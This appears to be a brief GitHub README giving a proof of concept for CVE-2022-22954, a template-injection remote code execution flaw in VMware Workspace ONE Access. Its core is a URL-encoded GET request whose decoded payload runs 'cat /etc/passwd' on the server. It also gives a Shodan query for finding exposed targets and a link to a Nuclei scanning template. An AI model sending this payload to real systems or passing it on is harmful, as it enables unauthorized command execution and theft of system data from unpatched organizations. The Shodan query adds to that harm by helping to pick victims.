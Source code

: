 # CVE-2022-22954
VMware Workspace ONE Access Freemarker SSTI RCE  
&nbsp;
### POC:
Use following GET request:
```
Target.com/catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%22%29%7d
```
&nbsp;
### Shodan Query:
```
http.favicon.hash:-1250474341
```
&nbsp;
### Nuclei Template:
[CVE-2022-22954.yaml](https://github.com/NafisiAslH/KnowledgeSharing/blob/main/CyberSecurity/Web/CVEs/CVE-2022-22954/CVE-2022-22954.yaml)
